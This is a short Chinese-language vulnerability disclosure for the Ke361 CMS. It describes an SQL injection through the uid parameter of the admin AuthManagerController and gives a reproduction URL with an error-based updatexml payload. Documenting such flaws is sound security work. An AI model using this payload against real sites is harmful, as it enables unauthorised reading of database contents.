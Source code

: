 # Ke361 AuthManagerController.class.php 后台SQL注入漏洞

## 漏洞描述

Ke361 AuthManagerController.class.php uid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232823896.png)

存在漏洞的文件为 `Application/Admin/Controller/AuthManagerController.class.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634142335709-0384ef5c-e05b-41af-b19d-a5b7864faaf3.png)

验证POC

```php
/admin.php?s=/AuthManager/group/uid/1')%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634142341220-a0120691-16d8-41e2-be07-abcaa561347f.png)
